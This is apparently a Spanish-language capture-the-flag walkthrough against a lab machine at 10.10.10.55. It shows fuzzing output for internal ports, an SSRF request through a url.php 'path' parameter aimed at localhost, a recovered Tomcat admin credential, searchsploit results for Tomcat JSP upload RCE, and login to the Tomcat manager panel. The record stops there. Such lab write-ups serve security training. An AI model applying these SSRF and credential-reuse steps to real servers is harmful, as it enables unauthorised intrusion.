```bash

=====================================================================
ID           Response   Lines    Word       Chars       Payload                                                                     
=====================================================================

000000320:   200        26 L     109 W      1232 Ch     "320"                                                                       
000000200:   200        3 L      2 W        22 Ch       "200"                                                                       
000000022:   200        4 L      4 W        62 Ch       "22"                                                                        
000000888:   200        78 L     265 W      3955 Ch     "888"                                                                       
000000110:   200        17 L     24 W       187 Ch      "110"                                                                       
000000090:   200        11 L     18 W       156 Ch      "90"                                                                        
000060000:   200        78 L     130 W      1171 Ch     "60000" 
```
SSRF - Listamos puertos internos de la maquina atraves del buscador de la web apuntando al localhost : y el puerto filtrando por la longitud en la respuesta.

Investigamos los Recursos Encontrados
```bash
http://10.10.10.55:60000/url.php?path=http%3A%2F%2F127.0.0.1%3A888
```
Encontramos un directory listing con un archivo llamado `Backup`, intentamos apuntar a el.
```bash
# Apuntamos al documento añadiendo `?doc=backup`
view-source:http://10.10.10.55:60000/url.php?path=http%3A%2F%2F127.0.0.1%3A888?doc=backup 
```
No se ve nada `--- hacemos Ctrl+U ---`  Encontramos Credenciales para algun login a nivel web.
```bash
<user username="admin" password="3@g01PdhB!" roles="manager,manager-gui,admin-gui,manager-script"/>
```
Buscamos si a nivel del `Tomcat en el puerto 8080`
Buscamos con searchsploit:
```bash
# searchsploit Tomcat 8.5.5                                                                                                            1 ⚙
----------------------------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                                             |  Path
----------------------------------------------------------------------------------------------------------- ---------------------------------
Apache Tomcat < 9.0.1 (Beta) / < 8.5.23 / < 8.0.47 / < 7.0.8 - JSP Upload Bypass / Remote Code Execution ( | jsp/webapps/42966.py
Apache Tomcat < 9.0.1 (Beta) / < 8.5.23 / < 8.0.47 / < 7.0.8 - JSP Upload Bypass / Remote Code Execution ( | windows/webapps/42953.txt
----------------------------------------------------------------------------------------------------------- ---------------------------------
```
Conseguimos entrar al panel del Admin a nivel web de Tomcat:
```bash
http://10.10.10.55:8080/manager/html
```
Introducimos las contraseñas encontradas y accedemos al panel como Administradores.
Desde Aqui seguimos los pasos para explotar el CMS Tomcat.
